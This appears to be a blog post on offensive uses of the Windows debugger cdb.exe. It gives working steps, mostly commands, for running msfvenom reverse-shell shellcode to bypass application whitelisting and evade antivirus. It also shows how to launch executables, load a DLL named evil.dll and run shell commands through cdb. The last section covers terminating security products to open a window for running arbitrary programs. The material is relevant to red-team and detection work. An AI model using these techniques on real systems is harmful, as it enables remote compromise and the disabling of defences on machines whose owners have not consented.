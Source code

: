 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting.

## Converting the Shellcode

I felt as though the unusual shellcode syntax may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert to the shellcode used in the article.

    #Input
    \x6a

    #Conversion formula
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV scanning due to the unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

1. Generate shellcode using msfvenom

    msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

2. Download the aforementioned script and replace the shellcode with yours then run the script

    python3 script.py > test.wds

3. Send it over to the target machine and use the following command

    cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach to a running process, it can be anything. I'll be attaching to notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

You can also hit CTRL+C then 'q' in the cdb console and it'll exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cbd to load a DLL. The DLL is loaded inside cbd not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our inject DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cbd to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell hostname

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate and gave me a window of about 30 seconds to run any executable I want, until it started back up again.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.


